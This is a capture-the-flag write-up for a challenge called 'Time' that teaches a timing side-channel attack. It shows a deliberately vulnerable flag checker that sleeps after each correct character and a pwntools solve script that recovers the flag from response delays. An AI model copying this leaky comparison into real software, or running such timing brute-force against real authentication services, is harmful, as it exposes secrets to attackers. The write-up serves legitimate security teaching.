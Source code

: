 # Time

Author: v10l3nt

## Description

Time may be a fleeting moment; but use this moment to capture the flag.

## Solution

This challenge is a simple demistration of a side channel timing attack. In the provided script it can be seen that the server will check each character individually and for each correct character it will wait 0.25 seconds before moving to the next character. It is possible to use this information to turn a exponential time brute force into a linear time brute force.

```python
#!/usr/bin/python3

import time

flag = open('flag.txt', 'r').readline().strip('\n').lower()
print("[+] Guess the flag >>> ")

user_guess = input().lower()

for i in range(0, len(flag)):
    if i+1 > len(user_guess):
        print("\n[!] Incorrect")
        exit(-1)
    elif (user_guess[i] != flag[i]):
        print("\n[!] Incorrect")
        exit(-1)
    else:
        time.sleep(0.25)

print("\n[+] Access Granted. Your Flag is: %s" %flag)
```

With each correct character, the time it takes for a response to be sent will increase by 0.25 seconds. The solve script below takes advantage of that to build the password one charater at a time based on the amount of time it takes before returning a response.

```python
#!/usr/bin/python3

from time import time
from pwn import *
import string

context.log_level = 'error'
alphabet = '{' + '_' + '}' + string.ascii_lowercase


def brute_char(flag):
    times = {}
    for char in alphabet:
        p = remote('0.cloud.chals.io', 27198)
        p.recvuntil(b'>>>')

        try:
            test = flag + char.encode()

            t1 = time.time()
            p.sendline(test)
            r = p.recvuntil(b'[')
            t2 = time.time()
            
            td = round(t2 - t1, 2)
            
            times[char] = td
            print(f"Tried: {test} Time Diff {td}.")
        except:
            print(f"Tried: {char} No Response.")

    return [(value, key) for key, value in times.items()]

def main():
    flag = b'uscg{not_this_time'

    while True:
        if b'}' in flag:
            break
        
        times = brute_char(flag)
        max_time = max(times)[1]

        flag += max_time.encode()
        print(f"Discovered Next Char: {flag}")

    print(f"Flag Found: {flag}")

main()
```

